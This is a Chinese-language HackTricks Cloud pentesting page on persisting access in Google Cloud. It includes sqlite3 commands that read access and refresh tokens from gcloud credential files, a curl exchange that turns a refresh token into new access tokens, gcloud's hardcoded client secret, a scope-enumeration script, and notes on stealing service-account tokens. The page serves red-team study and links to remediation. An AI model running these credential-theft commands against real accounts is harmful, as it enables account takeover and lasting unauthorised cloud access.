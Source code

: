 # GCP - Token Persistance

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 认证用户令牌

要获取用户的 **当前令牌**，您可以运行：

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

在此页面查看如何**直接使用此令牌通过gcloud**：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

要获取**生成新访问令牌**的详细信息，请运行：

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

还可以在 **`$HOME/.config/gcloud/application_default_credentials.json`** 和 **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** 中找到刷新令牌。

要使用 **refresh token**、客户端 ID 和客户端密钥获取新的刷新访问令牌，请运行：

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

刷新令牌的有效性可以在 **Admin** > **Security** > **Google Cloud session control** 中管理，默认设置为 16 小时，尽管可以设置为永不过期：

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

使用类似 `gcloud auth login` 的认证流程将在浏览器中打开一个提示，接受所有范围后，浏览器将向工具打开的 http 端口发送请求，例如：
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
然后，gcloud 将使用状态和代码与一些硬编码的 `client_id` (`32555940559.apps.googleusercontent.com`) 和 **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) 来获取 **最终的刷新令牌数据**。

{% hint style="danger" %}
请注意，与 localhost 的通信是通过 HTTP 进行的，因此可以拦截数据以获取刷新令牌，但此数据仅有效 1 次，因此这将是无用的，直接从文件中读取刷新令牌更容易。
{% endhint %}

### OAuth 范围

您可以在 [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) 找到所有 Google 范围，或者通过执行以下命令获取它们：

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

可以使用以下脚本查看**`gcloud`**用于身份验证的应用程序可以支持哪些范围：
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
在执行后，检查到此应用支持以下范围：
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
很有趣的是，这个应用支持**`drive`**范围，这可能允许用户在攻击者设法强迫用户生成具有此范围的令牌时，从GCP升级到Workspace。

**查看如何** [**在这里滥用它**](../gcp-to-workspace-pivoting/#abusing-gcloud)**。**

### 服务账户

就像经过身份验证的用户一样，如果您设法**泄露服务账户的私钥文件**，您将能够**通常无限期访问它**。\
然而，如果您窃取了服务账户的**OAuth令牌**，这可能会更有趣，因为即使默认情况下这些令牌仅在一个小时内有效，如果**受害者删除了私有API密钥，OAuth令牌在过期之前仍然有效**。

### 元数据

显然，只要您在运行GCP环境的机器内部，您将能够**通过联系元数据端点访问附加到该机器的服务账户**（请注意，您可以在此端点访问的OAuth令牌通常受范围限制）。

### 补救措施

一些针对这些技术的补救措施在[https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)中进行了说明。

### 参考

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
学习和实践AWS黑客攻击：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践GCP黑客攻击：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
